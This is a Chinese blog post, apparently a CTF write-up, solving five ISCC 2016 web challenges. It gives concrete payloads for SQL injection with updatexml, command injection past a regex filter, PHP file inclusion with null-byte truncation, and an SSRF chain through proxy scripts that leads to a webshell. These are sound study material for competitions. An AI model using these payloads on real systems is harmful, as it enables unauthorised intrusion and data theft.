 ```yaml
---
layout: post
title: iscc2016 web writeup
category: writeup
tags: ctf
description:
---
```


[iscc2016][1]
-------------
 - 0x00 web150 flag in flag

提示：不同用户有着不同的权限，也许flag用户能够知道真正的flag内容，但他的密码很复杂呢……对了，如果情况不对，赶紧重置数据库后闪人啊。https://img.scanfsec.com/img/


訪問`index.php.txt`得到源碼.
user=flag
`if ($row[user] == "flag" && $user=="flag") {`
第25行
`$sql = "select user from user where pw='$pass'";`
pass直接拼接sql语句进行查询造成注入.
payload：`user=flag&pass=' and updatexml(1,concat(0x7e,(select pw from user limit 1,1 )),0)#`
![20160523152830.jpg][2]

然後用密碼直接登錄即可得到flag.

- 0x01 web 300 PING出事了吧
提示：我刚做了一个Ping命令的小工具，快来试一下吧.
第一感覺是拼接的系統命令.
發現一樣給了源碼/index.php.txt
`$pattern='/^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}(([&]{2}|[;|])dir[\sa-zA-Z0-9]*)?$/';`
可怕只能執行dir
`127.0.0.1|dir`得到目錄`1C9976C230DA289C1C359CD2A7C02D48`
然後在dir就能得到flag.php直接訪問就行
payload:`/1C9976C230DA289C1C359CD2A7C02D48/flag.php`

- 0x02 web 350 simple injection
小明老板经常嫌弃小明太懒了，这次老板给了小明一个简单的问题，解决不了就要被炒鱿鱼喽~
測試發現是延時注入.
sqlmap跑起來.`space2mysqlblank.py`
這裡要用官方給的ss 畢竟阿里雲.
![20160523155536.jpg][3]
小夥伴解出來是yinquesiting
然後就admin yinquesiting登錄就能看到flag

- 0x03 web 350 double kill
"没有什么防护是一个漏洞解决不了的，如果有，那
就.....
發現是一個上傳圖片并預覽的東西,上傳沒問題.
![20160523163420.jpg][4]

加了個單引號提示沒有找到文件,猜測可能是文件包含.
於是就上傳了圖片得到了圖片的ID
![QQ截图20160523163651.jpg][5]

然後在view得到圖片的位置.
![QQ截图20160523163720.jpg][6]

發現空白![QQ截图20160523164057.jpg][7]

猜測是不是過濾了什麼.
測試發現過濾了 ` <?php?> `
於是寫成了這個`<script language="php">phpinfo();</script>`
然後構造用%00截斷
payload:`/index.php?page=uploads/1463992925.jpg%00`
得到flag

-  0x04 web 500 糊涂的小明

小明入侵了一台web服务器并上传了一句话木马，但是，管理员修补了漏洞，更改了权限。更重要的是：他忘记了木马的密码！你能帮助他夺回控制权限吗？

點擊登錄發現注釋裏面有個`<!--<script>alert('admin ip is 121.42.171.222')</script>-->`提示。
以為是`X-Forwarded-For`發現我太年輕。
發現`121.42.171.222`直接訪問是403
然後發現那圖片有問題,使用了proxy.php腳本,於是想了想是不是用這個腳本來訪問`121.42.171.222`
![QQ截图20160523165720.jpg][8]

測試發現了這個也存在proxy腳本
![QQ截图20160523165825.jpg][9]

然後訪問了一下`/web4/proxy.php?url=http://121.42.171.222/proxy.php?url=http://101.200.145.44/web4/admin/robots.txt`
得到了
````
User-agent: *
Disallow:trojan.php
Disallow:trojan.php.txt
Disallow:check.php
Disallow:check.php.txt
````
trojan.php.txt是木馬打開看了看.
驗證了SESSION
`if($_SESSION['admin'])!='1'){exit('get out! hacker!');}`
然後我們去掉這個把php報錯打開.
![QQ截图20160523170321.jpg][10]

密碼360
然後在看看check.php.txt
user=admin
那就註冊admin看看 結果發現註冊不了,於是註冊Admin看看.
這裡你可以使用nginx做个反向代理
也可以直接審查元素改驗證碼地址和post包地址.
註冊登錄以後cookie複製到菜刀裏面
連接上去就能看到flag了.

-----------


  [1]: http://iscc.isclab.org.cn/
  [2]: https://img.scanfsec.com/img/2016054273952785.jpg
  [3]: https://img.scanfsec.com/img/2016051441739549.jpg
  [4]: https://img.scanfsec.com/img/201605415482793.jpg
  [5]: https://img.scanfsec.com/img/2016051720968178.jpg
  [6]: https://img.scanfsec.com/img/201605328086218.jpg
  [7]: https://img.scanfsec.com/img/2016052169943617.jpg
  [8]: https://img.scanfsec.com/img/2016053313397396.jpg
  [9]: https://img.scanfsec.com/img/2016058784887.jpg
  [10]: https://img.scanfsec.com/img/2016052867840389.jpg
